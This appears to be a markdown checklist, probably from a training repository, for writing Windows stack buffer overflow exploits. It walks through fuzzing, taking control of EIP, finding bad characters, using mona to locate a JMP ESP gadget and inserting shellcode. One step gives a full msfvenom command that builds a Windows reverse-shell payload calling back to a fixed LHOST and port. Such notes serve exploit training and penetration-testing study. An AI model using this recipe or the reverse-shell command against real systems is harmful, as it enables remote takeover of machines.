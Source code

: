 1. Fuzz it and have it crash with all A's

2. Take control of EIP and one other register (ESP, EAX, etc.)

    A. Use `pattern_create $buffersize` and `pattern_offset $register_value`

3. Find badchars

    A. Use `!mona bytearray -b "\x00"` or use own Python algo (even better)

4. Generate the shellcode and insert it into the script
    
    A. Remember to generate the shellcode excluding the bad chars! Example:
    ```bash
    msfvenom -f python -b '\x00' -p windows/shell_reverse_tcp LHOST=192.168.40.47 LPORT=443 \
    EXITFUNC=thread > revshellwin.py`
    ```

    B. Remember to add at least 16 nops in front of the shellcode if you are jumping to ESP. The reason for that is `fnstenv [ebx-0xC]` instruction that will overwrite the first 16 bytes the ESP register points to. The msfvenom-encoded shellcode does it to find its current EIP address. Shellcode's decoder stub needs to know it in order to decode the main encoded payload. Instead of manually inserting 16 nops you can have msfvenom prepend your shellcode with 16 nops using `-n` flag.

5. Find space for the shellcode

    A. Try increasing buffer in necessary

6. Find instruction that will change the execution flow, e.g. JMP ESP / JMP EAX:

    A. Use nasm_shell to obtain intrcution opcodes
    
    B. First find module without ASLR and possible DEP protections: `!mona modules`
    
    C. Second find the instruction inside unprotected module, e.g. `!mona find -s "\xff\xe4" -m VulnServer.exe`
    
    D. Remember that the instruction address must not contain any bad chars!
    
    E. Remember to revert the address in your code! E.g. 0x65d11d71 becomes "\x71\x1d\xd1\x65"

    F. In more complex case when you control ESP but don't have enough space and some other register (e.g. EAX) 
       doesn't point exactly at the beginning of the controllable input you can write
    
    ```nasm    
    add eax, $offset
    jmp eax
    ```    
    
    instructions into ESP, and then put your shellcode into EAX+$offset

7. Test it.
